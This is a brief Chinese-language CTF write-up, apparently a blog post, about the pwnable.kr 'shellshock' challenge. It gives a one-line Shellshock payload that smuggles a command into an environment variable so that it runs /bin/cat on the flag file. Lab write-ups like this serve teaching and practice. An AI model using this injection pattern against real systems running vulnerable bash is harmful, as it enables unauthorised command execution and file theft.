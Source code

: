 ```yaml
---
title: shellshock
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/11/18/shellshock
  - /writeup/2014/11/18/shellshock/
tags:
  - linux
  - pwnable.kr
---
```

好吧，从这名字就知道是怎么回事儿了，前端时间爆出来的shellshock漏洞。我们需要执行`cat flag`就行。不过我开始试`cat`会说找不到文件，于是用`/bin/cat`了

<pre>$ env x='() { :;}; /bin/cat flag' ./shellshock</pre>

